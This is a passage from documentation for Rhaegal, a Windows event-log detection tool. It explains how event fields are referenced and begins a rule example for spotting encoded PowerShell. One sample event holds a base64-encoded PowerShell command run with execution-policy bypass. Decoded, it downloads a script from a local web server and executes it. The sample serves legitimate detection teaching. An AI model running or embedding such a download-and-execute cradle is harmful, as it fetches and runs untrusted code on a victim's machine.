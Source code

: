   * exclude: This field is a list of fidelis that will get excluded from the search. Each field inside this field could be a single value or a list of values.

# How Rhaegal Extracts The Events Fields ?

Rhaegal parses all events to dictionary. Let's take the following event as an example:

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
    <System>
      <Provider Name="PowerShell" /> 
      <EventID Qualifiers="0">403</EventID> 
      <Level>4</Level> 
      <Task>4</Task> 
      <Keywords>0x80000000000000</Keywords> 
      <TimeCreated SystemTime="2019-10-25T20:26:35.737437000Z" /> 
      <EventRecordID>353</EventRecordID> 
      <Channel>Windows PowerShell</Channel> 
      <Computer>LAB-PC</Computer> 
      <Security /> 
    </System>
	<EventData>
 	  	<Data>Stopped</Data> 
      	<Data>Available</Data> 
      	<Data>NewEngineState=Stopped PreviousEngineState=Available SequenceNumber=15 HostName=ConsoleHost HostVersion=5.1.18362.145 HostId=9acf0149-61aa-419e-9ac2-ef336a40a31a HostApplication=powershell -ep bypass -e JABjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7AEkARQBYACAAJABjAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMgA3AC4AMAAuADAALgAxADoAOAAwADAAMAAvAHMAIgApAA== EngineVersion=5.1.18362.145 RunspaceId=c5d60be5-441d-408a-9e17-36084284756d PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=</Data> 
	</EventData>
</Event>
```

Rhaegal parses all the data from the event. Here how you can reference a field:

* If the field is a `text` like the `EventID` then basically the key is `EventID` unless there is an attribute called `Name` then you would use `<TAG_NAME>.<NAME_ATTRIBUTE_VALUE>`
* If the field is an attribute then you can reference it using `<TAG_NAME>.<ATTRIBUTE_NAME>`. for example if you want to reference the `SystemTime` attribute in the `TimeCreated` tag then you would use `TimeCreated.SystemTime`
* Finally if you want to reference a field that repeats multiple times such as the `Data` tag inside `EventData` section you would use `Data0` for the first child, `Data1` for the second and so on

# Public Rule Example

In this section we will be writing a Rhaegal public rule to detect PowerShell encoded command. The following is an example of malicious activities that was logged in the `Windows PowerShell` log file:

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
    <System>
      <Provider Name="PowerShell" /> 
      <EventID Qualifiers="0">403</EventID> 
      <Level>4</Level> 
      <Task>4</Task> 
      <Keywords>0x80000000000000</Keywords> 
      <TimeCreated SystemTime="2019-10-25T20:26:35.737437000Z" /> 
      <EventRecordID>353</EventRecordID> 
      <Channel>Windows PowerShell</Channel> 
      <Computer>LAB-PC</Computer> 
      <Security /> 
    </System>
```